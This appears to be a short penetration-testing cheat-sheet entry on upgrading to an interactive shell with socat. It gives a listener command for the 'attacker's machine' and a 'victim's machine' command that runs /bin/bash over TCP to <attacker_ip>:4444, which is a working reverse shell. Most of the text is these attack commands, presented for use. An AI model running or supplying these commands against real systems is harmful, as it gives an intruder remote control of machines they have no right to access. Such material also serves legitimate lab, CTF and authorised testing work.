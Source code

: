 ### If you control both machines 
**Attacker's Machine**
```
socat file:'tty',raw,echo=0 tcp-listen:4444
```

**Victim's Machine**
```
socat exec:'/bin/bash',pty,stderr,setsid,sigint,sane tcp:<attacker_ip>:4444
```

**`Socat` needs to be on both machines for this to work.**

